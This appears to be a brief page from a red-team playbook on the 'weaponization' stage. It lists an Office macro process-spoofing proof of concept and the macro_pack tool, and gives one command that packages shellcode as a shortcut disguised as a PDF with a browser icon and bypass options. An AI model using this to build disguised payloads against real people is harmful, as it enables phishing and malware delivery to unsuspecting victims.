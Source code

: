 # 2 Weaponization

## Table of Contents

- [Tooling](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/2-Weaponization/2-Weaponization.md#Tooling)
- [macro_pack](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/2-Weaponization/2-Weaponization.md#macro_pack)

## Tooling

| Name | Description | URL |
| --- | --- | --- |
| spoofing-office-macro | PoC of a VBA macro spawning a process with a spoofed parent and command line. | https://github.com/christophetd/spoofing-office-macro |
| macro_pack | macro_pack is a tool by @EmericNasi used to automatize obfuscation and generation of Office documents, VB scripts, shortcuts, and other formats for pentest, demo, and social engineering assessments. | https://github.com/sevagas/macro_pack |

## macro_pack

```c
PS C:\macro_pack_pro> echo .\<FILE>.bin | marco_pack.exe -t SHELLCODE -G .\<FILE>.pdf.lnk --icon='C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe,13' --hta-macro --bypass
```

### Previous

- [1 Reconnaissance](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/1-Reconnaissance/1-Reconnaissance.md)
- [1.1 Scanning and Enumeration](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/1-Reconnaissance/1.1-Scanning-and-Enumeration.md)

### Next

- [2.1 Initial Access](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/2-Weaponization/2.1-Initial-Access.md)
